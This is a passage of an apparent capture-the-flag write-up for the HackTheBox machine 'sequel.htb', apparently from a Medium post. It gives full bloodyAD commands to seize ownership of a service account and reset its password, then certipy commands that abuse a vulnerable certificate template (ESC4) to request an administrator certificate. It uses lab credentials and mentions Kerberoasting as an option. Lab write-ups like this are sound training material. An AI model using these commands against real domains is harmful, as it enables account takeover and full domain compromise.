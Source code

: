 User ryan has `WriteOwner` over `SA_SVC` which has **`ADCSESC4 `**

Abusing the `WriteOwner` privilege over the `CA_SVC` account to change the user password. In a real engagement, it is often better to modify other attributes, such as setting DONT_REQ_PREA`UTH for **ASREPRoast** or assigning an SPN to enable **Kerberoasting**, allowing you to retrieve and crack the account's NTLM hash. Modifying attributes is generally less noisy than directly changing the password.

Using **BloodyAD**, which is a powerful tool that combines a lot of functionality into one comprehensive suite.

1. Changes the owner of the CA_SVC account to ryan.

    ```
    bloodyAD --host dc01.sequel.htb -d sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3' set owner ca_svc ryan
    ```
2. Modifying  the DACL to give us *ryan* full control over the CA_SVC account.
    ```
    bloodyAD --host dc01.sequel.htb -d sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3' add genericAll ca_svc ryan
    ```
3. Resets the password for the CA_SVC account to 
    ```
    bloodyAD --host dc01.sequel.htb -d sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3' set password ca_svc 'newP@ssword2022'
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*lBLsHGpFsJlZhRTTZTRiGA.png)
We can now perform the **ADCSESC4** attack as we own the user `SA_SVC`
![](https://cdn-images-1.medium.com/max/1000/1*_FzXBj1AIMurvBtIRVMSRQ.png)
ESC4 arises when a non-administrator account has write access to a certificate template, enabling them to modify its permissions. This allows the attacker to grant themselves enrollment rights and issue certificates that provide elevated privileges, such as domain administrator or domain controller access. The vulnerability is due to improper access control on certificate templates.

Vulnerable certificate template to this attack may allow user or a group to perform actions such as modifying **Owner permissions**, adding or changing **WriteOwnerPrincipals**, **WriteDaclPrincipals**, and **WritePropertyPrincipals**, or even granting themselves **FullControl** over the template.
![](https://cdn-images-1.medium.com/max/1000/1*J5TxOsMMj8_noq9DvAsjhA.png)

So let's start our work

1. Enumerate the vulnerable templates
    ```
    certipy find -u ca_svc -p 'newP@ssword2022' -target sequel.htb -text -vulnerable
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*NZM-LdKil7MbYf3xc1l3vg.png)
    Our user is member of the group `Cert Publishers`
    ![](https://cdn-images-1.medium.com/max/1000/1*FvVYWN4M0Fomn6o6ZxNS0Q.png)
    We have the permissions over the template that enable us to perform this attack
2. Modifying the certificate template
    ```
    certipy template -u ca_svc -p 'newP@ssword2022' -template 'DunderMifflinAuthentication' -target sequel.htb -save-old
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*l3IkPAW-rzNzWpPDHcoG7Q.png)
3. Requesting a domain admin certificate using modified ESC4 template
    ```
    certipy req -ca sequel-DC01-CA -u ca_svc -p 'newP@ssword2022' -template 'DunderMifflinAuthentication' -target sequel.htb -upn administrator@sequel.htb 
    ```
    There is something important to know here we have to perform all these process from changing ca_svc user password to performing ESC4 attack so fast as there is a cleanup script running on the machine
    ```